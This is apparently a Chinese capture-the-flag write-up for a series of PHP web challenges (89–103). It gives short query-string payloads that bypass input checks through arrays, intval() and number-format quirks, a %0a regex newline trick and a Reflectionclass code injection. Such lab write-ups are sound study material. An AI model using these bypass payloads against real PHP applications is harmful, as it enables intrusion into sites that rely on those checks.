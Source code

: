 [toc]

# 89,97 数组绕过

89:/?num[]=1

97:a[]=1&b[]=2

# 90 intval()特性

/?num=+4476

# 91 %0a绕过

[Apache HTTPD 换行解析漏洞(CVE-2017-15715)与拓展](https://blog.csdn.net/qq_46091464/article/details/108278486)

payload：/?cmd=abc%0aphp

i区分大小写，m匹配多行

/^php$/im：m匹配多行，第二行匹配到php，放过

/^php$/i：首行没有匹配到php，绕过

# 92 科学计数法绕过

/?num=4476e123

# 93,95 8进制转10进制绕过

/?num=010574

010574为8进制，转10进制后为4476

# 94 小数点绕过

/?num=4476.0

# 101 直接绕过

```
?v1=1&v2=echo new Reflectionclass&v3=;
```

# 102,103 

> call_user_func(v1,v2) 
>
> v1:回调函数
>
> V2:回到函数的参数
